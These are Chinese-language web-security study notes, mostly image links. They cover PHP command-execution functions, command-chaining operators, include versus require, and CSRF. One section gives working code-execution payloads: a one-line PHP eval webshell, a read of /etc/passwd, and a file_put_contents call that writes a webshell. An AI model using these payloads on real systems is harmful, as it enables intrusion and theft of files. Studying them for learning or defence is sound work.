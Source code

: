 ![image-20210225012749369](../../img/image-20210225012749369.png)

![image-20210225012859864](../../img/image-20210225012859864.png)

![image-20210225012913388](../../img/image-20210225012913388.png)

![image-20210225012928079](../../img/image-20210225012928079.png)

命令执行常用函数

```
1. System：system函数可以用来执行一个外部的应用程序并将相应的执行结果输出，
函数原型如下：string system(string command, int&return_var)
其中，command是要执行的命令，return_var存放执行命令的执行后的状态值。
 2. Exec：exec函数可以用来执行一个外部的应用程序
string exec (string command, array&output, int &return_var)
其中，command是要执行的命令，output是获得执行命令输出的每一行字符串，
return_var存放执行命令后的状态值。
 3.Passthru：passthru函数可以用来执行一个UNIX系统命令并显示原始的输出，
当UNIX系统命令的输出是二进制的数据，并且需要直接返回值给浏览器时，
需要使用passthru函数来替代system与exec函数。
Passthru函数原型如下：void passthru (string command, int&return_var)
其中，command是要执行的命令，return_var存放执行命令后的状态值。
 4. Shell_exec：执行shell命令并返回输出的字符串，
函数原型如下：string shell_exec (string command)
其中，command是要执行的命令。
```

```
命令执行漏洞：相当于在cmd下敲命令，有一点像SSRF的利用方式

command1&command2 两个命令同时执行
command1&&command2 只有前面命令执行成功，后面命令才继续执行
command1;command2 不管前面命令执行成功没有，后面的命令继续执行
command1||command2 顺序执行多条命令，当碰到执行正确的命令后将不执行后面的命令
```

**代码执行漏洞的利用：**

**1、一句话木马**

${@eval($_POST[1])}

**2、获取当前工作路径**

${exit(print(getcwd()))}

使用菜刀

**3、读文件**

${exit(var_dump(file_get_contents($_POST[f])))}

f=/etc/passwd

使用post提交数值 f=/etc/passwd

4、**写webshell**

${exit(var_dump(file_put_contents($_POST[f], $_POST[d])))}

f=1.php&d=1111111

同样使用post

![image-20210225013429966](../../img/image-20210225013429966.png)

# PHP include 和 include_once 的区别

```
include 会将指定的文件载入并执行里面的程序；重复引用加载多次

include_once 函数会将指定的文件载入并执行里面的程序；此行为和 include 语句类似，唯一区别是如果该文件中已经被包含过，则不会再次包含。

```

![image-20210225013700683](../../img/image-20210225013700683.png)

```
include 引入文件的时候，如果碰到错误，会给出提示，并继续运行下边的代码。

require 引入文件的时候，如果碰到错误，会给出提示，并停止运行下边的代码。


```

![image-20210225013904115](../../img/image-20210225013904115.png)

![image-20210225013914326](../../img/image-20210225013914326.png)

![image-20210225013924646](../../img/image-20210225013924646.png)

cookie,ssesion,token区别

csrf伪造referer

CSRf

![image-20210225014707721](../../img/image-20210225014707721.png)

![image-20210225015859840](../../img/image-20210225015859840.png)

![image-20210225015906314](../../img/image-20210225015906314.png)

![image-20210225015914046](../../img/image-20210225015914046.png)

![image-20210225015927734](../../img/image-20210225015927734.png)

![image-20210225020000724](../../img/image-20210225020000724.png)

![image-20210225020028267](../../img/image-20210225020028267.png)

![image-20210225020042743](../../img/image-20210225020042743.png)

![image-20210225020242256](../../img/image-20210225020242256.png)

![image-20210225021937833](../../img/image-20210225021937833.png)

![image-20210225021953323](../../img/image-20210225021953323.png)

![image-20210225022006406](../../img/image-20210225022006406.png)

![image-20210225022047282](../../img/image-20210225022047282.png)

![image-20210225022102317](../../img/image-20210225022102317.png)

![image-20210225022112298](../../img/image-20210225022112298.png)

![image-20210225022121633](../../img/image-20210225022121633.png)

![image-20210225022134405](../../img/image-20210225022134405.png)

![image-20210225022150348](../../img/image-20210225022150348.png)

![image-20210225022202385](../../img/image-20210225022202385.png)

![image-20210225022940468](../../img/image-20210225022940468.png)

![image-20210225022953600](../../img/image-20210225022953600.png)

![image-20210225023005033](../../img/image-20210225023005033.png)

![image-20210225023012152](../../img/image-20210225023012152.png)

![image-20210225193844023](../../img/image-20210225193844023.png)

![image-20210225193902711](../../img/image-20210225193902711.png)

![image-20210225193945502](../../img/image-20210225193945502.png)

![image-20210225193959015](../../img/image-20210225193959015.png)

![image-20210225194007268](../../img/image-20210225194007268.png)

![image-20210225194029968](../../img/image-20210225194029968.png)

![image-20210225194856411](../../img/image-20210225194856411.png)
